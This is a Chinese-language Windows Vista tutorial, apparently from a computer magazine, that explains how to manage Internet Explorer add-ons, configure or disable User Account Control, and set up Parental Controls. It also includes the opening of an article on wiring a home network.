加载项也称为 ActiveX 控件、浏览器扩展、浏览器帮助应用程序对象或工具栏，可以通过提供多媒体或交互式内容（如动画）来增强对网站的体验。但是，某些加载项可导致计算机停止响应或显示不需要的内容，如弹出广告。大多数来自 Internet 的加载项需要在用户同意后才能下载到计算机，但是，某些加载项可能不通知用户就下载到计算机上，从而给用户的计算机安全带来风险，正是由于这个原因，Windows Vista 才给用户提供了加载项管理器，以便更好地控制和管理加载项。

**（1）查看安装的加载项**

- 打开 Internet Explorer。
- 依次单击“工具→管理加载项→启用或禁用加载项”命令，打开“管理加载项”对话框。
- 在“显示”框中，选择下列选项之一：
  - 若要显示驻留在您的计算机上加载项的完整列表，请单击“Internet Explorer 已经使用的加载项”；
  - 若要仅显示当前网页或最近查看的网页所需要的那些加载项，请单击“Internet Explorer 中当前加载的加载项”；
  - 若要显示由 Microsoft、计算机制造商或服务提供商事先批准的加载项，请单击“不请求许可即可运行的加载项”；
  - 若要仅显示 32 位 ActiveX 控件，请单击“下载的 ActiveX 控件(32 位)”。

**（2）禁用加载项**

如果怀疑某个浏览器加载项影响到计算机安全，你可以禁用它。

**小提示：临时禁用所有加载项**

单击“开始”按钮，依次单击“所有程序→附件→系统工具→“Internet Explorer (无加载项)”命令，就可以在禁用所有加载项的情况下使用 Internet Explorer。

如果要永久删除加载项，请按照以下步骤进行操作：

- 打开 Internet Explorer。
- 单击“工具→管理加载项→启用或禁用加载项”命令，打开“管理加载项”对话框。
- 在“显示”列表中，单击“Internet Explorer 已经使用的加载项”以显示所有加载项。
- 单击要禁用的加载项，然后单击“禁用”。
- 对每个想要禁用的加载项重复步骤 4。
- 完成操作后，请单击“确定”按钮。

**（3）重新启用加载项**

- 打开 Internet Explorer。
- 单击“工具→管理加载项→启用或禁用加载项”命令，打开“管理加载项”对话框。
- 在“显示”列表中，单击“Internet Explorer 已经使用的加载项”以显示所有加载项。
- 单击要启用的加载项，然后单击“启用”。
- 对每个要启用的加载项重复步骤 4。
- 完成操作后，请单击“确定”。

**（4）删除加载项**

- 打开 Internet Explorer。
- 单击“工具→管理加载项→启用或禁用加载项”命令，打开“管理加载项”对话框。
- 在列表中选中要删除的加载项，然后单击“删除”按钮。
- 对每个想要删除的加载项重复步骤 3。
- 完成操作后，请单击“确定”按钮。

**小提示：** 只能删除已经下载和安装的 ActiveX 控件。无法“删除”预安装的 ActiveX 控件或任何种类的加载项，但是可以“禁用”它们。若要删除已安装的 ActiveX 控件，请使用 Windows 控制面板中的“添加或删除程序”。

## 用户账户控制

### 用户账户控制简介

用户账户控制（User Account Control，简称UAC）是 Windows Vista 中一个崭新的安全组件，它是帮助用户更好地管理计算机和防止恶意程序损坏系统的一系列基础架构和技术的总称。使用用户账户控制后，在安装了 Windows Vista 计算机上的所有用户都可以以标准用户身份运行应用程序和任务，而标准用户是一个受限制的，不具备管理功能的账户，只能运行被授权能够运行的程序和任务。用户账户控制还会阻止未经授权的应用程序在计算机上安装和运行，防止标准用户无意中对系统设置进行更改，从而提高系统的安全性。

在了解用户账户控制功能之前，我们先了解一下 Windows XP 中是如何控制用户权限的。在 Windows XP 中，所有用户的凭据信息（用户名和密码）都保存在 SAM 数据库中，当用户登录系统时，首先要输入用户名和密码信息，这些信息由启动进程获取并由 LSA 系统在 SAM 数据库中进行验证，如果输入的信息与 SAM 数据库中的记录符合，那么 LSA 子系统就会生成一个访问令牌，并传递给用户。当该用户需要运行程序或访问资源的时候，系统会首先从用户持有的访问令牌中找到用户的权限信息，然后和想要进行的操作所需要具有的权限进行比较，如果权限足够大，那么就可以进行相应的操作，如果权限不足，操作则会被禁止。

从上面的叙述我们可以看到，当用户以管理员的身份登录系统后，用户运行的任何程序也就拥有了管理员权限，可以进行管理员级别的操作，如果用户无意中运行了一个恶意程序，则该恶意程序就会以管理员的权限对系统进行随意更改，后果将不堪设想。从这里我们可以看到 Windows XP 中对用户权限控制存在的安全问题非常严重，系统安全无法得到有效的保障，所以 Windows Vista 引入了用户账户控制功能。

在 Windows Vista 中有三种不同类型的账户：标准、管理员、来宾。每种账户类型为用户提供不同的计算机控制级别。标准账户是日常计算机使用中所使用的账户。管理员账户对计算机拥有最高的控制权限，并且应该仅在必要时才使用此账户。来宾账户主要供需要临时访问计算机的用户使用。

管理员账户就是允许用户进行将影响其他用户的更改的用户账户。管理员可以更改安全设置，安装软件和硬件，访问计算机上的所有文件。管理员还可以对其他用户账户进行更改。

来宾账户是供在计算机或域中没有永久账户的用户使用的账户。它允许人们使用计算机，但没有访问个人文件的权限。使用来宾账户的人无法安装软件或硬件，更改设置或者创建密码。必须打开来宾账户然后才可以使用它。

标准用户账户允许用户使用计算机的大多数功能，但是如果要进行的更改会影响计算机的其他用户或安全，则需要管理员的许可。

标准用户是计算机 users 组成的成员，管理员是计算机 administrators 组成的成员，与以前的 Windows 版本不同，在 Windows Vista 中，默认情况下无论是标准用户还是管理员都以标准用户模式运行程序和访问资源，并且限制管理员的权限。在标准用户账户模式下，用户可以使用大多数程序，如浏览 Internet、发送电子邮件、使用文字处理软件等，所有这些都不需要管理员账户。当用户安装新程序或更改会影响其他用户设置的操作时，Windows 会要求输入管理员账户的密码，以便在您不知情和未经您许可的情况下拒绝安装软件。

在启用用户账户控制功能的 Windows Vista 中，用户仍然可以使用管理员账户登录系统，不过，这时的管理员账户只是受保护的管理员模式，当用户运行程序时，程序所得到的权限只相当于标准用户账户的权限，不足以对关键的系统设置进行修改，这种机制就像在系统与恶意软件间加入了一个隔离层保护，从而最终提高系统的安全。

当用户需要对某些重要的系统设置更改时，系统将会启用用户账户控制功能，需要用户确认权限之后才可以进行操作。这时，系统会弹出用户账户控制窗口，显示该操作的程序的名称，以及将要进行的操作，与此同时，屏幕上的其他内容都会变暗，无法操作。这里又分两种情况：

如果当前登录的账户具有更改系统设置所需的权限，即该账户是管理员账户，那么，Windows Vista 会显示一个警告对话框，询问用户是否继续，单击“继续”按钮，就可以进行操作了。

如果当前登录的账户不具有相应的权限，即该账户是标准用户账户，Windows Vista 将首先显示一个对话框，要求用户输入一个管理员账户的用户名和密码，如果输入的信息正确，可以继续完成操作，否则，将会被拒绝。

### 打开或关闭用户账户控制

默认情况下，用户账户控制是打开的，虽然这个功能给系统安全带来了保障，但频繁的需要权限许可有时会给用户带来不必要的繁琐操作，如果用户确认自己运行的程序是安全的，则可以关闭用户账户控制功能，从而提高工## Vista 完全攻略

E-mail: hub@cfan.com.cn

工作效率。这里需要提醒大家注意，一般情况下不要关闭该功能，除非你对自己运行的程序很有把握，确信它是安全的。关闭用户账户控制的操作如下：

- (1) 单击“开始→控制面板→用户账户和家庭安全→用户账户”，打开用户账户设置窗口（见图9）。
- (2) 单击“打开或关闭用户账户控制”链接。
- (3) 系统弹出警示窗口，提示需要你确认才可以进行进一步操作，单击“继续”按钮。
- (4) 在打开的窗口中取消选择“使用用户账户控制（UAC）帮助保护您的计算机”选项，然后单击“确定”按钮。
- (5) 系统弹出窗口提示需要重新启动，然后可以应用这些更改，单击“立即重新启动”按钮。



### 3. 以管理员身份运行程序

在 Windows Vista 中，用户账户控制和管理员批准模式默认情况下都是打开的，因此，即使是管理员账户登录系统，它也将作为标准用户账户使用，管理员的权限是被限制的。当用户运行一些需要完全管理员权限的应用程序或系统管理程序时，用户账户控制消息将会出现，系统提示进行权限提升，按照提示完成权限提升后，就可以继续进行管理员级别的操作了。权限提升操作分两种情况：

用户如果偶尔想对某个应用程序以完全管理员的身份运行，并且只运行一次，可以这样操作：

- ① 在 Windows 资源管理器中找到要运行的程序图标或者程序运行的快捷方式。
- ② 右键单击程序图标或程序快捷方式，在弹出的菜单中选择“以管理员身份运行”命令。
- ③ 出现用户账户控制提示窗口，请执行下列操作之一：
  - 如果作为标准用户账户登录，或者用户账户控制配置为总是要求提示凭据，请输入相应的凭据，再单击“确定”按钮；
  - 如果作为管理员账户登录，并且用户账户控制没有配置为总是要求提示凭据，请单击“继续”按钮来运行应用程序。

> 小提示：若要执行以上步骤，必须使用本地 Administrator 组的成员身份登录，或者提供该组成员的凭据。

#### (2) 总是使用完全管理员权限运行程序

对于某些用户经常使用而又确认是安全的应用程序，例如单位内部的管理系统程序、财务程序等，由于开发人员或发行者没有将其标识为管理员应用程序，如果用户每次使用时都需要使用用户账户控制来提升使用权限，显然非常麻烦，因此，需要把这些应用程序标记为总是使用完全管理员身份运行的程序，以减少用户账户控制提升权限提示，提高工作效率。将应用程序标记为总是需要完全管理员权限的步骤如下：

- ① 右键单击需要标记为完全管理员权限的应用程序。
- ② 在弹出的快捷菜单中选择“属性”命令。
- ③ 在打开的应用程序属性窗口中单击“兼容性”选项卡。
- ④ 在“特权等级”项目中，选中“请以管理员身份运行该程序”选项，再单击“确定”按钮。

> 小提示：若要执行以上步骤，必须使用本地 Administrator 组的成员身份登录，或者提供该组成员的凭据。

如果“请以管理员身份运行该程序”选项无法使用，表示系统已经阻止该应用程序总是使用管理员凭据运行，不需要管理员权限即可运行该应用程序，或者用户没有以管理员身份登录到计算机。

### 4. 设置用户账户控制

用户账户控制功能非常实用，用户可以根据需要进行灵活设置，以便更好的发挥它的功能。设置用户账户控制的具体操作如下：

#### (1) 禁用管理员批准模式

默认情况下，Windows Vista 启用了管理员批准模式，也就是说所有管理员都将以标准用户身份运行，当用户运行一些需要管理员权限的应用程序时，必须提升用户权限才能继续操作。事实上我们可以禁用这项功能，给所有的管理员账户以完全管理员的权限，这样就简化了操作步骤，方便了管理员账户的使用。禁用管理员批准模式的具体操作如下：

- ① 使用管理员账户登录计算机。
- ② 单击“开始→所有程序→附件→运行”命令，打开“运行”窗口，在“打开”输入框中输入 secpol.msc，然后单击“确定”按钮。
- ③ 在弹出的提示框中单击“继续”按钮，打开“本地安全策略”设置窗口，在左侧窗格中的目录树中，依次打开“安全设置→本地策略→安全选项”。
- ④ 在右侧的窗格中找到“用户账户控制: 以管理员批准模式运行所有管理员”项，双击它（见图10）。



- ⑤ 在打开的“用户账户控制：以管理员批准模式运行所有管理员属性”窗口中选择“已禁用”选项，单击“确定”按钮。
- ⑥ 最后重新启动系统，使更改生效。

#### （2）禁用应用程序安装提示

默认情况下，用户账户控制功能可以自动检测大部分安装应用程序，当用户试图安装应用程序时，用户账户控制提示窗口会出现，提醒用户需要提升用户权限才能安装应用程序。如果用户不想每次安装应用程序时都出现这个提示窗口，可以禁用这项功能。禁用应用程序安装提示的具体操作如下：

- 1. 用管理员账户登录计算机。
- 2. 单击“开始→所有程序→附件→运行”命令，打开“运行”窗口，在“打开”输入框中输入 secpol.msc，然后单击“确定”按钮。
- 3. 打开“本地安全策略”设置窗口，在左侧窗格中的目录树中，依次打开“安全设置→本地策略→安全选项”。
- 4. 在右侧的窗格中找到“用户账户控制：检测应用程序安装并提示提升”项，双击它。
- 5. 在打开的“用户账户控制：检测应用程序安装并提示提升属性”窗口中选择“已禁用”选项，单击“确定”按钮。

##### 小提示：更改权限提升消息设置

无论是标准用户还是管理员批准模式下的管理员，在运行一些需要完全管理员权限的应用程序时，系统总会弹出一些消息窗口，提示你需要进行哪些操作。对于这些弹出的用户账户控制消息窗口，用户可以根据需要灵活设置提示的方式。

#### （3）为管理员批准模式下的管理更改权限提升消息设置

- 1. 用管理员账户登录计算机。
- 2. 单击“开始→所有程序→附件→运行”命令，打开“运行”窗口，在“打开”输入框中输入 secpol.msc，然后单击“确定”按钮。
- 3. 打开“本地安全策略”设置窗口，在左侧窗格中的目录树中，依次打开“安全设置→本地策略→安全选项”。
- 4. 在右侧的窗格中找到“用户控制：管理员批准模式中管理员的提升提示行为”项，双击它。
- 5. 打开“用户控制：管理员批准模式中管理员的提升提示行为属性”窗口，从下拉菜单中选择以下设置之一：
  - 不提示，直接提升：在这种情况下，已标记为管理员应用程序的应用程序以及被检测出是安装应用程序的应用程序，都将使用完全管理员访问令牌自动运行。所有其他应用程序都将使用标准用户令牌自动运行。
  - 提示凭据：在这种情况下，为了获取应用程序可以使用完全管理员访问令牌运行的许可，用户必须输入管理员凭据。该设置符合一般准则或企业策略。
  - 同意提示：这是默认设置。
- 6. 单击“确定”按钮。

#### （4）为标准用户更改权限提升消息设置

- 1. 用管理员账户登录计算机。
- 2. 单击“开始→所有程序→附件→运行”命令，打开“运行”窗口，在“打开”输入框中输入 secpol.msc，然后单击“确定”按钮。
- 3. 打开“本地安全策略”设置窗口，在左侧窗格中的目录树中，依次打开“安全设置→本地策略→安全选项”。
- 4. 在右侧的窗格中找到“用户账户控制：标准用户提升提示行为”项，双击它。
- 5. 打开“用户账户控制：标准用户的提升提示行为属性”窗口，从下拉菜单中选择以下设置之一：
  - 自动阻止提升请求：在这种情况下，管理员应用程序将无法运行。用户会看到来自该应用程序的错误消息，提示某个策略已经阻止运行该应用程序；
  - 提示凭据：这是默认设置。在这种情况下，若要使应用程序能够使用完全管理员访问令牌运行，用户必须输入管理员凭据。
- 6. 单击“确定”按钮。

## 八、家长控制

在 Windows Vista 中，通过引入丰富并且功能强大的家长控制功能，有效地帮助父母监视和管理孩子对计算机的使用，保障他们的安全。

### 1. 家长控制简介

在如今的信息社会里，计算机和网络已经步入了千家万户，成为人们获取信息的一个重要途径，广大的青少年也利用计算机学习、娱乐，并且逐渐成为使用计算机的主力军，然而网络上的内容良莠不齐，沉迷于游戏又会给孩子的身体健康和学习带来极大的危害，家长又不可能一直呆在孩子身旁，随时掌控孩子的操作，因此，如何保证自己的孩子在上网时远离不良信息与内容，家长怎样控制孩子玩游戏，成为许多家长关注的问题。

在 Windows Vista 中引入了一个令人关注的新特性：家长控制，利用家长控制功能，家长就可以设置儿童使用计算机的时间、可以玩的游戏类型、可以访问的网站以及可以运行的程序。家长甚至还可以看到孩子最近在计算机上的活动报告汇总信息，比如浏览了哪些网站，下载了什么内容，玩过什么游戏，使用计算机多长时间等。

#### （1）设置儿童使用计算机的时间限制

可以设置时间限制，对允许儿童登录到计算机的时间进行控制。时间限制可以禁止儿童在指定的时段登录计算机。可以为一周中的每一天设置不同的登录时段。如果在分配的时间结束后其仍处于登录状态，则将自动注销。

#### （2）禁止儿童玩家长不希望其玩的游戏

可以控制对游戏的访问、选择年龄分级级别、选择要阻止的内容类型、确定是允许还是阻止特定游戏。

#### （3）对儿童使用网站的方式设置限制

可以限制儿童可以访问的网站、检查年龄分级，指定是否允许下载文件，并设置希望内容筛选器阻止或允许的内容。还可以阻止或允许特定网站。

#### （4）禁止儿童运行特定程序

禁止儿童运行家长不希望其运行的程序。

家长控制是“控制面板”中“用户账户和家庭安全”的一部分，它是通过管理员账户来对标准用户账户设置使用权限来实现的，因此，家长控制功能只能应用到标准用户账户上，而不能应用到管理员账户上。当家长使用家长控制功能时，必须保证自己是管理员账户，然后给孩子添加标准用户账户，同时设置家长控制，这样，当孩子的操作超出家长设置的权限时，系统就会弹出一个警告对话框（见图11），这是当孩子打开不允许访问的网站时弹出的警告对话框，提示该网站已被管理禁止。



如果孩子打开一个禁止玩的游戏时，也会弹出一个警告对话框，提示程序无法进行（见图12）。



孩子要想进行下一步的操作，只有向管理员（也就是家长）申请权限，经过允许后才能继续操作，这样就起到了很好的保护作用。

### 2. 打开家长控制

在使用家长控制之前，家长首先需要有一个管理员账户，同时给每个需要控制的孩子设置一个标准用户账户，这是因为家长控制只能应用于标准用户账户，而不能应用于管理员用户账户，用管理员账户可以开启每个标准用户账户的家长控制功能。为了叙述方便，我们给家长建立了一个管理员账户 xxdd，给孩子建立了一个标准用户账户 children。下面就是给标准用户账户启用家长控制的具体步骤：

- （1）单击“开始→控制面板→用户账户控制和家庭安全→家长控制”命令。
- （2）系统弹出一个对话框，提示只有经过你的许可才能进行家长控制操作，我们确定要进行这项操作，所以直接单击“继续”按钮，如果单击“取消”按钮，将无法进行家长控制的操作。
- （3）出现选择用户窗口，让家长选择用来设置家长控制的账户，直接单击孩子 children 账户（见图13）。
- （4）打开家长控制设置窗口（见图14），在“家长控制”项目下，单击选中“启用，强制当前设置”选项，启用家长控制。





整个家长控制页面分成了左右两部分，左边显示了所有设置项的链接，右边显示该用户当前配置的家长控制内容信息汇总摘要。

通过家长控制可以控制以下内容：

- ① 浏览网站限制：家长可以限制儿童可以访问的网站（确保儿童仅访问与其年龄适合的网站），可以指定是否允许下载文件，并可以设置希望内容筛选器阻止或允许的内容。还可以阻止或允许特定网站。
- ② 时间限制：家长可以设置时间限制，对允许儿童登录到计算机的时间进行控制。时间限制可以禁止儿童在特定时段登录（如果处于登录状态，则将自动注销）。可以为一周中的每一天设置不同的登录时段。
- ③ 游戏限制：家长可以控制对游戏的访问、选择年龄分级级别、选择要阻止的内容类型、确定是允许还是阻止未分级游戏或特定游戏。
- ④ 应用程序限制：家长可以禁止儿童运行不希望其运行的程序。

下面来详细了解每项限制内容的设置方法。

### 3. 控制儿童使用电脑的时间

家长可以根据需要控制孩子使用电脑的时间段，例如可以设置一周中每天所允许的时间段，其余所有时间则禁止使用电脑。家长还可以通过查看活动报告来了解孩子使用电脑的时间长短。下面是设置时间限制的具体步骤：

- 1. 单击“开始→控制面板→用户账户控制和家庭安全→家长控制”命令，打开“家长控制”。
- 2. 单击要设置时间限制的账户。
- 3. 在“家长控制”项目中选中“启用，强制当前设置”选项。
- 4. 单击窗口左侧的“时间限制”链接。
- 5. 在打开的时间设置窗口中设置允许禁止使用电脑的时间。窗格的上部显示的是0~24点，每小时一个窗格，窗格的左侧显示的是一周七天的天数。蓝色表示禁止使用电脑，白色表示允许使用电脑（见图15）。家长可以对一周中每天24小时做出一个详细的使用电脑计划，例如可以让孩子在每周六周日的下午3点到5点使用电脑，其他时间则禁止使用电脑。
- 6. 全部设置完毕，单击“确定”按钮返回。

小提示：对于时间限制的设置，将以一周为周期重复执行操作，如果想临时改变某个时间段设置，可以进入“家长控制”中的“时间限制”项目中进行修改，当改变后的时间段执行完毕，可以再打开“时间限制”恢复原来的设置。


单击某个窗格，该窗格变成蓝色，表示在该时间段禁止使用电脑，也可以拖动鼠标选择连续的多个时间段，对于某个设定的禁止时间段如果想取消它，可以再次单击它，即可取消设置。

### 4. 指定儿童可以玩的游戏

Windows Vista 自带的“游戏”组件提供了多个很好玩的游戏，应该说其中有些游戏还是非常不错的。除了 Windows Vista，目前市面上开发的各种游戏数量非常多，对孩子的吸引力非常大，但孩子毕竟不像成人，他们的自控能力非常差，有些游戏玩起来很容易上瘾，因此还是应该适当给予限制。家长控制中的游戏限制功能就可以帮助家长解决这个问题。

利用游戏限制功能可以指定允许儿童在电脑上玩哪些游戏，禁止儿童玩哪些游戏。Windows Vista 中的游戏限制功能非常强大，它可以阻止：所有游戏；选择的特定游戏；基于年龄分级的特定游戏；基于内容分级的特定游戏。这四种方法可以根据需要组合使用。

- (1) 设置游戏限制的具体步骤
  - ① 单击“开始→控制面板→用户账户控制和家庭安全→家长控制”命令，打开“家长控制”。
  - ② 单击要设置游戏限制的账户。
  - ③ 在“家长控制”项目中选中“启用，强制当前设置”选项。
  - ④ 单击窗口左侧的“游戏”链接。
  - ⑤ 打开游戏设置窗口（见图16）。



- (2) 根据需要进行各种游戏限制设置
  - ① 禁止所有游戏：如果想禁止儿童玩的游戏，请在“children 可以玩游戏吗”项目下选中“否”选项，这样孩子什么游戏都玩不成了。
  - ② 按年龄分级阻止游戏：专门的游戏分组委员会把各种游戏按照不同的年龄阶梯分为适合儿童、青少年或成人等几种级别，通过年龄分级可以给孩子指定适合他们年龄阶段玩的儿童或青少年级别的游戏，禁止儿童玩成人游戏。设置游戏分级的具体操作是：单击“设置游戏分级”链接，打开游戏分级选择窗口，在“哪些分级的游戏可供 children 玩？”下面的列表中选择一个分级类别，共有“儿童”、“所有人”、“10岁以上的所有人”、“青少年”、“成人”、“仅成人”六种级别可供选择。选择完毕后，单击“确定”按钮即可。

小提示：六种级别的具体含义：
① 儿童：适合3岁及3岁以上人士观看。
② 所有人：适合6及6岁以上人士观看。
③ 10岁以上的所有人：适合10岁及10岁以上人士观看。
④ 青少年：适合13岁及13岁以上人士观看。
⑤ 成人：适合17岁及17岁以上人士观看。
⑥ 仅成人：仅适合于成人观看，此类别游戏可能包括性描述图片和暴力，不适宜18岁以下人观看。

对于未分级的游戏可以在窗口最上面的“如果游戏未分级，children 可以玩吗？”项目中选择“允许未分级的游戏”或是“阻止未分级的游戏”运行。

- ③ 按内容阻止游戏：除了按游戏的分级限定儿童所玩的游戏外，家长还可以根据游戏所包含的内容来阻止游戏，让孩子远离包含暴力、性、色情、毒品、赌博、烟草、酒精等内容的游戏。设置按内容阻止游戏的具体操作是：
单击“设置游戏分级”链接，打开游戏分级选择窗口，在“阻止这些类型的内容”下面的列表中，选择要阻止的内容类型，共有 30 多种，可以同时选中多个选项，最后单击“确定”按钮即可。

#### ④ 禁止特定游戏

对于 Windows Vista 系统自带的几种游戏，类型多样，玩法简单，各种年龄阶段的人都可以找到自己喜爱的游戏，而且很快上手，因此，对于孩子很有吸引力，家长可以根据需要允许孩子玩哪些游戏。具体操作步骤如下：

单击“阻止或允许特定游戏”链接，打开游戏选择窗口，可以看到 Vista 系统自带的九种游戏，在按字母顺序排列的游戏列表中，可以对每个游戏选择“始终允许”或“始终阻止”选项，设置完毕后单击“确定”按钮。

### 5. 禁止儿童使用特定程序

除了游戏，电脑中还安装了各种各样的程序，如文字处理、电子邮件、音视频播放、下载工具等，家长控制功能允许家长可以限制儿童使用电脑中的任何程序，包括一些没有在游戏列表中列出的游戏，也可以用这种方法进行阻止。有了这个功能，家长就可以随心所欲地设置儿童可以使用的电脑程序，而不仅仅局限于游戏，这就给家长管理儿童使用电脑带来了极大的便利。禁止儿童使用特定程序的具体操作如下：

- (1) 单击“开始→控制面板→用户账户和家庭安全→家长控制”命令，打开“家长控制”。
- (2) 单击要设置家长控制的账户。
- (3) 在“家长控制”项目中选中“启用，强制当前设置”选项。
- (4) 单击窗口左侧的“允许和阻止特定程序”链接。
- (5) 在打开的窗口中单击“children 只能使用我允许的程序”，然后在下面的应用程序的列表中选择要允许的程序。这个列表中不但显示了用户自己安装的程序，还列出了一些系统程序，非常全面。如果某些程序（比如一些不需要安装的绿色软件）没有出现在应用程序列表中，可以单击“浏览”按钮添加该程序的可执行文件到应用程序表中。也可以通过单击“全选”或“取消全选”按钮快速地选择或取消选择应用程序。
- (6) 全部选择完毕，单击“确定”按钮返回。

### 6. 限制儿童在网上可以查看的内容

网络上的内容五花八门，有很多内容不适合儿童浏览，为了帮助家长控制儿童上网行为，Windows Vista 把浏览限制作为一个单独的功能添加到家长控制中，通过恰当的设置，可以限制儿童可以访问的网站、检查年龄分级、指定是否允许下载文件，并设置希望内容筛选器阻止或允许的内容，还可以阻止或允许特定网站。需要指出的是，这些设置是系统级的，它不仅作用于微软自家的 Internet Explorer 浏览器，对其他厂家的浏览器也同样有效。当儿童试图浏览被阻止的网站时，系统将弹出警告窗口，提醒儿童没有浏览该网站的权限。

#### (1) 设置浏览限制的具体步骤：

- ① 单击“开始→控制面板→用户账户和家庭安全→家长控制”命令，打开“家长控制”。
- ② 单击要设置家长控制的账户。
- ③ 在“家长控制”项目中选中“启用，强制当前设置”选项。
- ④ 单击窗口左侧的“Windows Vista Web 筛选器”链接。
- ⑤ 打开 Web 限制设置界面（见图 17）。在“children 可以访问 Internet 的哪些部分？”项目中，选中“阻止部分网站或内容”选项，启用 Web 限制。如果选中“阻止所有网站或内容”选项，将禁止儿童浏览任何网站。



#### (2) 设置具体的限制内容

##### ① 允许和阻止特定网站

单击“允许和阻止特定网站”项目下的“编辑允许和阻止列表”链接，打开“允许或阻止特定网站”编辑窗口，在这里可以设置允许儿童浏览或禁止浏览的网站列表。具体操作方法是：

在“网站地址”输入框中输入网站的地址，如输入“新浪网”的网址：http://www.sina.com.cn，然后单击“允许”按钮，该网址就被添加到“允许的网站”列表中；如果单击“阻止”按钮，网址就被添加到了“阻止的网站”列表中。重复以上操作，可以把多个网址添加到被允许或阻止的网站列表中（见图 18）。



小提示：在“网站地址”输入框中输入网址时，可以输入网址的全名，也可以输入简化的地址，系统都将自动识别并将它添加到列表中。如输入“新浪网”的网址时，可以输入 http://www.sina.com.cn，也可以输入 www.sina.com.cn 或 sina.com.cn。

对于列表中的新网站，如果想删除它，可以先单击选中它，然后单击“删除”按钮即可。

如果想把建立的网站列表保存起来，以便其他用户使用，可以单击“导出”按钮，把建立的 Web 允许阻止列表保存起来，其他用户使用时，单击“导入”按钮，选中保存的列表文件即可把它导入进来，这样可以减少重复输入的麻烦，提高工作效率。

如果选中窗口左下角的“仅允许位于列表上的网站”选项，系统将只允许儿童浏览允许网站列表中的网站。

- ②自动阻止部分网站

家长可以根据Web限制级别和阻止的内容类别来设置要屏蔽的网站，可以选择Web限制的级别来使用预定义的内容阻止类别，也可以手动选择这些类别。

> 小提示：Windows Vista把Web站点级别分为以下几种：
高限制：阻止所有Web内容，仅允许儿童网站。
中等限制：阻止含有成人内容、色情、毒品、仇恨语言和武器内容的网站。
无限制：不阻止任何网站。

要想限制儿童访问网站的级别，家长可以在“选择Web限制级别”项目中根据需要选择“高”、“中等”或者“无”。另外，家长也可以选择“自定义”，这时系统会打开一个列表，在这里可以选择要阻止的网站内容，包括色情内容、成人内容、性教育、仇恨的语言、制造炸弹、武器、毒品、酒精、烟草、赌博和未分级的内容。

> 小提示：由于网站内容的判定有个人的主观倾向，所以根据以上设置对网站的过滤并非是绝对的，建议用户根据活动报告中用户访问过的网站列表来手动把它们添加到“允许或阻止特定网站”中。

- ③禁止下载文件

如果担心儿童从网上下载了包含病毒或其他不良信息的软件，可以禁止儿童使用文件下载功能，方法是：在Web限制设置窗口中，选中窗口最下面的“阻止文件下载”选项，这样，当儿童试图从网站上下载文件时，系统就会出现一个警告窗口，提示儿童没有下载文件的权限。

- （3）解除浏览网站限制

对于使用了家长控制功能的用户，如果试图访问被阻止的网站或包含阻止内容的网站时，网页将被完全阻止或被信息栏部分阻止，系统同时给出提示信息，如果想继续浏览网站内容，请执行以下步骤：

查看被完全阻止的内容的步骤：

- ①打开Internet Explorer浏览器，输入要访问网站的网址。
- ②如果该网站是被家长控制所阻止的网站，系统将屏蔽该网站，网页被完全阻止并出现提示页面，提示该网站已被家长控制阻止。
- ③如果想继续浏览该网站，单击“请向管理员要求权限”链接。
- ④弹出管理员账户密码窗口，输入管理员账户密码，然后单击“确定”按钮。
- ⑤弹出对话框询问管理员是否允许该账户访问此网站，单击“始终允许”按钮，就可以浏览该网站，如果单击“保持阻止”按钮，将继续阻止浏览此网站。
- ⑥弹出对话框，提示此网站现在是允许的，单击“确定”按钮。
- ⑦返回浏览器窗口，单击“刷新”按钮或按F5键，就可以打开被阻止的网站。

查看被部分阻止的内容的步骤：

- ①打开Internet Explorer浏览器，输入要访问网站的网址。
- ②如果该网站包含被家长控制所阻止的内容，该部分内容将被出现的信息栏屏蔽，同时弹出信息提示窗口，并在网页的顶部出现消息栏，提示页面上的一些内容已被家长控制所阻止。
- ③单击“关闭”按钮，关闭信息提示窗口。单击顶部的消息栏，在弹出的菜单中单击“查看被阻止的内容”命令。
- ④弹出管理员账户密码窗口，输入管理员账户密码，然后单击“确定”按钮。
- ⑤弹出对话框询问管理员是否允许访问该网站上阻止的内容，单击“始终允许”按钮，就可以浏览被阻止的内容。

> 小提示：如果要从网站下载被阻止的文件或加载项，必须首先暂时禁用家长控制功能，然后再尝试下载文件或加载项。

### 7. 设置家长控制活动报告

家长不但可以控制孩子使用电脑，而且还可以将孩子使用电脑的情况生成一个详细的报告，例如孩子浏览过哪些网站，下载了哪些文件，玩过什么游戏，使用过哪些程序等等，这样家长就可以随时掌握孩子使用电脑的习惯，为家长管理带来方便。

- （1）启用活动报告
- ①单击“开始→控制面板→用户账户和家庭安全→家长控制”命令，打开“家长控制”。
- ②单击要设置家长控制的账户。
- ③在“家长控制”项目下单击“启用，强制当前设置”选项，在“活动报告”项目下选中“启用，收集有关计算机使用情况的信息”选项。
- ④最后单击“确定”按钮。

- （2）查看活动报告
- ①单击“开始→控制面板→用户账户和家庭安全→家长控制”命令，打开“家长控制”。
- ②单击要查看其活动报告的账户。
- ③在打开的家长控制设置窗口中单击右侧的“查看活动报告”链接。
- ④打开活动查看器，可以查看孩子使用电脑的情况，单击右侧的目标树，可以查看每一项详细的报告。

- （3）设置提醒阅读活动报告的时间
- ①单击“开始→控制面板→用户账户和家庭安全→家长控制”命令，打开“家长控制”。
- ②单击左侧目录栏中的“家庭安全选项”链接。
- ③在“家庭安全选项”设置窗口中可以设置让系统多长时间提醒您阅读活动报告，有三种选择：“每周”、“每天”或“从不”，根据需要选择一种。
- ④最后单击“确定”按钮，系统就会在规定的时间自动提醒您阅读活动报告。

## 数字家庭

文 / 阿亮

随着相关产品在价格上的普及，数字家庭概念正逐渐被越来越多的时尚用户所接受。但是，有不少用户在实际组建数字家庭环境时感觉无从下手。其实，数字家庭的搭建并不复杂，我们主要从设备选择、网络环境搭建、视频连接以及应用方案等方面着手。下面，我们着重介绍如何组建精彩纷呈的数字家庭。

## 一、数字家庭的基础：网络组建

随着家庭网络概念的普及，网络布线成为很多读者关心的话题。然而，在进行新房装修时，国内大多数装修公司甚至装修队对此了解甚少，因此我们只能自己动手了。另外，如果是已经装修好的房子，也可以重新布置网络。

### 1. 布线规划最重要：设计网络结构

如今家庭网络的主要用途是实现 Internet 共享与文件共享，因此基本都需要用到集线器或是宽带路由器等设备。毫无疑问，这样的网络肯定存在一个节点，这是在网络布线时首先需要考虑的问题。

一般情况下，考虑到减少布线长度，我们总是将节点设置在客厅，这样做的好处显而易见。由于节点处所使用的集线器或者宽带路由器等需要配合宽带 Modem，而宽带 Modem 一般连接电话线（ADSL）或是有线电视同轴电缆（Cable 有线通）。为了确保信号，建议选择最前端的信号源，客厅自然是最佳选择。就是使用 FTTB 上网，这样也能减少布线长度。

